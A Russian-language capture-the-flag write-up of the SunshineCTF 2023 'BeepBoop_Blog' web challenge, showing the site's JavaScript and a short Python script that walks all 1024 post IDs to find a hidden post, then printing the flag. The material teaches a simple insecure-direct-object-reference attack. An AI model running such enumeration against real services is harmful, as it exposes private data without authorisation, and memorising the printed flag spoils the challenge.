

# BeepBoop_Blog

## Задание



Взглянем на сам сайт.


Сайт представляет собой одностраничник с множеством записей от роботов, как указано в задании, флаг скорее всего в одной из них. Но такое количество блогов перебирать в ручную, кажется невозможным.

## Решение

Прежде всего возникает идея взглянуть на исходный сайт, там мы обнаружим скрипт, который переносит пользователя на страницу с блогом.

```jsx
function loadPosts() {
    fetch("/posts").then(data => {
        return data.json();
    }).then(json => {
        document.getElementById("contents").innerHTML = "";

        let out = "";
        for (let i = 0; i < json.posts.length; i++) {
            let post = json.posts[i].post;
            let preview = post.substring(0, 100) + "...";
            let post_url = json.posts[i]["post_url"].split("/");
            let post_id = post_url[post_url.length - 1];

            const postElement = document.createElement("div");
            postElement.classNames = "post";

            const headElement = document.createElement("h3");
            headElement.innerText = `Post from ${json.posts[i].user}`;
            postElement.appendChild(headElement);

            const textElement = document.createElement("p");
            textElement.innerText = preview;
            postElement.appendChild(textElement);

            const linkElement = document.createElement("a");
            linkElement.onclick = evt => { loadPost(post_id) };
            linkElement.href = "#";
            linkElement.innerText = "View All...";
            postElement.appendChild(linkElement);

            document.getElementById("contents").appendChild(postElement);
        }
    })
}

function loadPost(post_id) {
    document.getElementById("contents").innerHTML = "";

    fetch(`/post/${post_id}/`).then(data => {
        return data.json();
    }).then(json => {;

        const postElement = document.createElement("div");
        postElement.classNames = "post";

        const headElement = document.createElement("h3");
        headElement.innerText = `Post from ${json.user}`;
        postElement.appendChild(headElement);

        const textElement = document.createElement("p");
        textElement.innerText = json.post;
        postElement.appendChild(textElement);

        const linkElement = document.createElement("a");
        linkElement.onclick = evt => { loadPosts() };
        linkElement.href = "#";
        linkElement.innerText = "Go Back";
        postElement.appendChild(linkElement);

        document.getElementById("contents").appendChild(postElement);
    })
}

window.onload = evt => {
    loadPosts();
}
```

Можем заметить, что все блоги лежат в json фале по адресу /posts. Так же можно обнаружить, что можно достать каждый пост по его номеру., у все постов параметр hidden установлен на false, наталкивает на мысль, что нужный нам пост скрыт. Всего постов 1024.

Напишем скрипт, который пропарсит все посты.

```python
import requests
from urllib3.exceptions import InsecureRequestWarning
from urllib3 import disable_warnings
import re
s = requests.Session()
posts = []
regs = []
link = "https://beepboop.web.2023.sunshinectf.games/post/"
disable_warnings(InsecureRequestWarning)
for i in range(0, 1024):
    r = s.get(link+str(i)+"/", verify=False)
    posts.append(r.text)
for i in posts:
    if re.search("sun{", i) != None:
        print(i)
```

после того, как все посты будут собраны, остается только найти пост с флагом.

```jsx
{"hidden":true,"post":"sun{wh00ps_4ll_IDOR}","user":"Robot #000"}
```